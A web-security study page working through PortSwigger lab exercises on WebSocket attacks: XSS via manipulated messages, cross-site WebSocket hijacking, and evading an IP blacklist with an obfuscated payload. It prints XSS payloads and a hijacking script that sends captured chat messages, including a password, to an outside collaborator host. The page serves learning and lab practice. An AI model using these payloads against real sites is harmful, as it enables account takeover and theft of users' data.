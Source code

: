 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# WebSockets

{% hint style="info" %}
A **WebSocket** is a communication protocol that provides full-duplex communication channels over a single TCP connection. It is designed to be implemented in web browsers and web servers but can be used by any client or server application.
{% endhint %}

## General Information

### Process

1. **Handshake**: The connection starts with an HTTP handshake, where the client sends an upgrade request to **switch the protocol** from `HTTP` to `WebSocket`.
2. **Data Frames**: After the handshake, **data is exchanged** in frames (text or binary data).
3. **Connection Lifecycle**: The connection remains open, allowing either party to send data until one side closes the connection.

## Examples

### XXS via WebSockets

> _The example below is based on PostSwigger's_ [Manipulating _WebSocket messages to exploit vulnerabilities_](https://portswigger.net/web-security/websockets/lab-manipulating-messages-to-exploit-vulnerabilities) _lab._

If we sent a payload directly from the Live chat functionality, it gets encoded (Figure 1).

```javascript
<img scr=x onerror=alert()>;
```

<figure><img src="../.gitbook/assets/web_websockets_1.png" alt=""><figcaption><p>Figure 1: Inspecting the WebSocket's traffic.</p></figcaption></figure>

We can intercept the traffic, decode the payload manually, and let the traffic be forwarded (Figure 2).

<figure><img src="../.gitbook/assets/web_websockets_2.png" alt="" width="563"><figcaption><p>Figure 2: Manipulating the payload &#x26; achieving XSS.</p></figcaption></figure>

### WebSocket Hijacking

> _The example below is based on PostSwigger's_ [_Cross-site WebSocket hijacking_](https://portswigger.net/web-security/websockets/cross-site-websocket-hijacking/lab) _lab._

To achieve WebSocket Hijacking we need to perform a CSRF[^1] attack on a WebSocket handshake, which is possible if:

1. The handshake relies on cookies.
2. There are no CSRF tokens.

We notice that we are assigned a `session` cookie with the `SameSite` attribute set to `None`, which is a prerequisite for this attack (Figure 3).

<figure><img src="../.gitbook/assets/web_websockets_3.png" alt=""><figcaption><p>Figure 3: Checking the session's cookie flags.</p></figcaption></figure>

After inspecting the WebSocket connection behaviour, we can create a JS[^2] payload and retrieve the chat logs which include `carlos`'s password (Figure 4).

{% code overflow="wrap" %}
```javascript
<script>
var ws = new WebSocket('wss://0a4700f603803331818f583600220083.web-security-academy.net/chat');
ws.onopen = function() {
  ws.send("READY");
}

ws.onmessage = function(event) {
  fetch('https://6gnqllgs5kwtsbomr9wxdigcx33urmfb.oastify.com', {method: 'POST', mode: 'no-cors', body: event.data});
}
</script>
```
{% endcode %}

<figure><img src="../.gitbook/assets/web_websockets_4.png" alt=""><figcaption><p>Figure 5: The WebSocket Hijacking process.</p></figcaption></figure>

### Blacklisted IPs

> _The example below is based on PostSwigger's_ [_Cross-site WebSocket hijacking_](https://portswigger.net/web-security/websockets/cross-site-websocket-hijacking/lab) _lab._

In an effort to replicate our [XXS via WebSockets](websockets.md#xxs-via-websockets) attack process, we get our IP address blacklisted (Figure 6).

```javascript
<img src=x onerror=alert()>;
```

<figure><img src="../.gitbook/assets/web_websockets_5.png" alt=""><figcaption><p>Figure 6: Sending an XSS payload gets our IP address blocked.</p></figcaption></figure>

We can try different [IP-tracking HTTP headers](authentication/rate-limiting.md) to bypass this filter and send a slightly obfuscated payload instead (Figure 7).

```javascript
<img scr=x oNeRroR=alert`1`>
```

<figure><img src="../.gitbook/assets/web_websockets_6.png" alt=""><figcaption><p>Figure 7: Bypassing the server's filters.</p></figcaption></figure>

[^1]: Cross-Site Request Forgery

[^2]: JavaScript
